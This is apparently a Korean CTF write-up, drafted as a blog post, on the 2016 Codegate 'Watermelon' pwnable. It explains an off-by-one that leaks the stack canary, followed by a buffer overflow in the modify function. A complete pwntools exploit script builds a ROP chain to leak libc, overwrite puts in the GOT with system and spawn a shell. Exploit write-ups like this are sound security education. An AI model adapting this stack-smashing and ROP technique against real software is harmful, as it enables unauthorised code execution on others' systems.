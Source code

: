 ```yaml
---
layout: post
title: "2016 Codegate Watermelon"
date: 2019-11-13
ctf: Codegate CTF
published : false
---
```


이름을 입력하는 곳을 보면 전역변수(bss) 영역에 scanf를 받게 된다.

add, view, modify에 들어가는 인자가 4400만큼 할당받는다.

add함수에서는 어떠한 전역변수 하나가 100인지 비교하고 아니면 곡 추가하고 증가해주는 거 보면 곡의 인덱스인거 같다.

playlist 구조체 : num(4) + music(20) + artist(20)

이러한 구조체가 100개 있는 것이다.

```c
int playlist_struct; // [esp+1Ch] [ebp-113Ch]
unsigned int canary; // [esp+114Ch] [ebp-Ch]
구조체(4400) + canary()
```

add() : 1byte overflow

view() : playlist view -> view canary

modify() : overflow 

Canary Leak 시나리오

> add()로 playlist 100개 채우는데 마지막에 artist만 21개 입력해서 Canary Leak해준다.
>
> view()로 가서 Leak된 Canary를 알아온다.
>
> modify()로 가서 bof 일으키고 Canary 값 맞춰주면서 ROP 해주면 된다.

```python
from pwn import *
 
context.log_level = 'debug'
context.arch = 'i386'
 
p = process('./watermelon')
libc = ELF('/lib/i386-linux-gnu/libc.so.6',checksec=False)
e = ELF('./watermelon')
 
sla = lambda x,y : p.sendlineafter(x,y)
sl = lambda x : p.sendline(x)
sa = lambda x,y : p.sendafter(x,y)
s = lambda x : p.send(x)
 
popret = 0x080484d1 # 0x080484d1 : pop ebx ; ret
pop3ret = 0x080495ad # 0x080495ad : pop ebx ; pop edi ; pop ebp ; ret
bss = e.bss()
 
def add():
    sla('\tselect\t|\t\n','1')
    sla('\tmusic\t|\t','A')
    sla('\tartist\t|\t','A')
 
if __name__ == '__main__':
    sla('name : \n','realsung')
    for i in range(99):
        add()
    sla('\tselect\t|\t\n','1')
    sla('\tmusic\t|\t','A')
    sla('\tartist\t|\t','A'*21)
 
    sla('\tselect\t|\t\n','2')
    p.recvuntil('A'*20)
    canary = u32(p.recv(4)) - ord('A')
    log.info('canary : ' + hex(canary))
 
    ########################################
 
    sla('\tselect\t|\t\n','3')
    sla('select number\t|\t\n','100')
    sla('\tmusic\t|\t','B')
 
    # artist(20) + canary(4) + dummy(8) + sfp(4) + ret 
    pay = 'A'*20
    pay += p32(canary)
    pay += 'A'*12
    pay += flat(e.plt['puts'],popret,e.got['puts'])
    pay += flat(e.plt['read'],pop3ret,0,bss,10)
    pay += flat(e.plt['read'],pop3ret,0,e.got['puts'],8)
    pay += flat(e.plt['puts'],'AAAA',bss) 
    sla('\tartist\t|\t',pay)
 
    sla('\tselect\t|\t\n','4')
 
    p.recvuntil('BYE BYE\n\n')
    puts = u32(p.recv(4))
    log.info('puts : ' + hex(puts))
    libc_base = puts - libc.symbols['puts']
    log.info('libc_base : ' + hex(libc_base))
    system = libc_base + libc.symbols['system']
    log.info('system : ' + hex(system))
 
    sl('/bin/sh\x00')
    s(p32(system))
 
p.interactive()
```

